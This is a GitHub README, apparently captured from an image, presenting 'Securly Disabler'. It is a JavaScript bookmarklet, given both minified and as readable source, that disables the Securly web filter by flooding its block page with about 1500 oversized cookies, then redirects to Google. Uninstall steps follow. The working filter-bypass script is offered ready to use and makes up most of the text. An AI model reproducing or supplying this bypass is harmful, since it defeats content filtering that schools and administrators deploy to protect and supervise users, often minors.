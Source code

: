 # Securly Disabler
This can disable securly by overloading packet sizes.
## Install
First, go to a blocked page (ex. https://minecraft.net, https://coolmathgames.com, etc.).  
Then, bookmark that page.  
Modify that bookmark and add the following contents instead:
```js
javascript:if("https://useast-www.securly.com"!==window.location.origin)throw"flying bird";window.cookie="";var _=new Blob;function sleep(e){return new Promise(o=>setTimeout(o,e))}async function main(){for(let e=0;e<1500;e++)document.cookie=URL.createObjectURL(_)+"="+URL.createObjectURL(_),URL.revokeObjectURL(_),document.title="🐦 "+e+"/1500",await sleep(10);document.title="🐦 Done!",window.location.replace("https://google.com")}main();
```
Click on it, and wait for it to redirect you to google.
## Uninstall
Go to https://useast-www.securly.com/404.html, and click on the padlock.  
After that, click on cookies.  
Click on securly.com, and click remove.  
And click on useast-www.securly.com, and click remove.  
Click done.
## Source
```js
if (window.location.origin !== "https://useast-www.securly.com")
  throw "flying bird";
window.cookie = "";
var _ = new Blob();
function sleep(ms) {
  return new Promise((resolve) => setTimeout(resolve, ms));
}
async function main() {
  for (let i = 0; i < 1500; i++) {
    document.cookie = URL.createObjectURL(_) + "=" + URL.createObjectURL(_);
    URL.revokeObjectURL(_);
    document.title = "🐦 " + i + "/1500";
    await sleep(10);
  }
  document.title = "🐦 Done!";
  window.location.replace("https://google.com");
}
main();
```
